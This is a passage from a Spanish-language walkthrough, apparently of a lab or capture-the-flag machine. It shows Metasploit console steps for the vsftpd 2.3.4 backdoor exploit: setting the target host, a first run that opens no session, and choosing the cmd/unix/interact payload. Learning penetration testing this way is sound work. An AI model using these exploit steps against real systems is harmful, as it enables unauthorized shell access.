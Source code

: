 Seguimos, listaremos las opciones del exploit:

```sh
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

Lanzo el exploit, pero verás que nos falta definir un payload:

```sh
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Como no me salía el nombre de PAYLOAD pensaba que no estaría la opción, pero si que se puede:

```sh
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> show payloads

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set PAYLOAD cmd/unix/interact
PAYLOAD => cmd/unix/interact
```
